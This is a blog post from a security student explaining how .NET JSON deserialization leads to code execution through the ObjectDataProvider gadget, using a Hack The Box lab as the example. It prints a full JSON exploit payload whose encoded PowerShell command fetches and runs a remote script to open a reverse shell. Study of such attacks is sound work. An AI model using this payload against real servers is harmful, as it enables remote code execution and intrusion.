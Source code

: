 [Home](https://plackyhacker.github.io)

# Deserialization - Object Instantiation for Remote Code Execution
 
I am currently studying Offensive Security Advanced Web Attacks and Exploitation (WEB-300). One of the sections in the curriculum is a Dot Net Nuke (DNN) deserialization vulnerability leading to code execution.

I have carried out some deserialization attacks before (all legal of course), and whilst I understood the concept behind them I had never really thought about how the RCE occurs.

I decided to have a look at the underlying .Net objects to demonstrate what is happening under the hood once the deserialization has been carried out and the object has been instantiated.

Hopefully this will help others to understand why code execution is achieved.

The questions I am going to try and answer are:

- What is a deserialization vulnerability?
- What is an `ObjectDataProvider`?
- How does the PowerShell script get executed automatically?

I am not going to discuss the code of a deserialization vulnerability as that has been done many times before... maybe instantiation has too... I don't really know... or care!

## Deserialization Vulnerabilities

According to [OWASP (2017)](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization) 'the impact of deserialization flaws cannot be overstated. These flaws can lead to remote code execution attacks, one of the most serious attacks possible'.

Serialization is the operation of taking an object or objects in memory and encoding them into a stream of bytes that can be stored (for example to a datase or file) or transmit (for example over a network). Deserialization is the opposite of serialization, a stream of bytes is taken and used to reconstruct an object or objects in memory. Examples of serialization outputs are XML and JSON.

Serialization can be very useful for transmitting objects over a network where two discontiguous systems can effectively contain the same state in terms of object instantiations.

<img width="273" alt="Screenshot 2022-06-06 at 19 05 06" src="https://user-images.githubusercontent.com/42491100/172219463-bc6dcf9e-e317-470d-abbc-a70902cfea64.png">

If the target application has a deserialization vulnerability then it may be possible to submit unsanitized JSON/XML to the web application and trigger code execution.

## An Example - JSON

The hack the box JSON machine is a perfect example to explain the underlying object instantiation. The HTTP POST payload used to exploit JSON is shown below:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe  -exec bypass -enc SQBFAFgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANAAvAHIAZQB2AC4AcABzADEAIgApAA==']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

When the web application deserializes the JSON object it spawns a reverse shell, but why?

## ObjectDataProvider

The [ObjectDataProvider](https://docs.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=windowsdesktop-6.0) class wraps and creates an object that you can use as a binding source. A binding source is used to bind underlying data to a form control. We aren't too interested in that, what we are interested in is that it can act as a wrapper to instantiate a class and call a method in the instantiated object.

### PowerShell Execution

Our goal is to get PowerShell execution on the target. In C# we can do that with the following code:

```csharp
Process p = new Process();
p.Start("cmd", "/c powershell.exe  -exec bypass -enc ...");
```

Unfortunately we cannot do this from a web browser. What we can do is abuse the vulnerable JSON deserializer to instantiate an `ObjectDataProvider` which in turn will instantiate a `Process` and call the `Start()` method automatically upon instantiation. In C# it looks like this:

```csharp
ObjectDataProvider provider = new ObjectDataProvider();

provider.MethodName = "Start";
provider.MethodParameters.Add("cmd");
provider.MethodParameters.Add("/c powershell.exe  -exec bypass -enc ...");
provider.ObjectInstance = new Process();
```

The JSON deserializer creates these objects as part of the deserialization process and the `ObjectDataProvider` does its magic and calls the `Start()` method on our behalf!

[Home](https://plackyhacker.github.io)
